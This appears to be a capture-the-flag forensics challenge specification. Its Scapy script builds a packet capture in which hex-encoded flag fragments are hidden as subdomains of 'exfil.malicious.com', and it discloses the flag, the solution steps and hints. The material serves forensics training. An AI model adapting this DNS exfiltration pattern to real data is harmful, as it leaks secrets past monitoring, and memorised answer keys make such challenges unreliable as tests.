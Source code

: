# Suspicious Traffic Challenge

## Challenge Overview
This medium-difficulty forensics challenge involves network packet capture analysis. Participants will need to analyze DNS traffic to discover data being exfiltrated through DNS queries.

## Challenge Creation Instructions
1. Create a PCAP file containing normal network traffic mixed with suspicious DNS queries
2. The DNS queries should contain encoded/encrypted parts of the flag
3. The queries should be made to multiple subdomains of a suspicious domain
4. When properly decoded, the DNS queries will reveal the flag: `flag{DNS_3xf1ltr4t10n_1s_cl3v3r}`

## Setup Instructions
1. Use Scapy, tcpreplay, or another tool to generate the PCAP file:
   ```python
   from scapy.all import *

   # Create a list to hold packets
   packets = []
   
   # Add some normal traffic (HTTP, HTTPS, etc.)
   for i in range(20):
       packets.append(IP(dst="142.250.180.4")/TCP(dport=443)/Raw(b"Normal HTTPS traffic"))
       packets.append(IP(dst="172.217.167.36")/TCP(dport=80)/Raw(b"Normal HTTP traffic"))
   
   # Add the flag data as DNS queries (data exfiltration)
   flag_parts = [
       b"66.6c.61.67.",  # "flag" in hex
       b"44.4e.53.5f",   # "DNS_" in hex
       b"33.78.66.31",   # "3xf1" in hex
       b"6c.74.72.34",   # "ltr4" in hex
       b"74.31.30.6e",   # "t10n" in hex
       b"5f.31.73.5f",   # "_1s_" in hex
       b"63.6c.33.76",   # "cl3v" in hex
       b"33.72"          # "3r" in hex
   ]
   
   # Create DNS queries for each part of the flag
   for i, part in enumerate(flag_parts):
       # Create subdomain with base64/hex-encoded flag part
       query = part.decode() + ".exfil.malicious.com"
       
       # Add the DNS query packet
       packets.append(IP(dst="10.0.0.53")/UDP(dport=53)/DNS(
           rd=1,
           qd=DNSQR(qname=query)
       ))
   
   # Add some more normal traffic to obscure the exfiltration
   for i in range(20):
       packets.append(IP(dst="13.107.42.14")/TCP(dport=443)/Raw(b"More normal traffic"))
   
   # Write the packets to a PCAP file
   wrpcap("capture.pcap", packets)
   ```

2. Place the resulting capture.pcap file in the artifacts folder

## Expected Solution

Participants will:
1. Open the PCAP file in Wireshark
2. Filter for DNS traffic: `dns` in the display filter
3. Notice suspicious DNS queries to subdomains of malicious.com
4. Extract the encoded parts from the subdomain names
5. Decode the hex data to reveal the flag

## Hints (if needed)
- "Pay attention to the DNS traffic in the capture."
- "Those subdomains look strange... are they encoding something?"
- "Sometimes data can be hidden in plain sight - like in domain names." 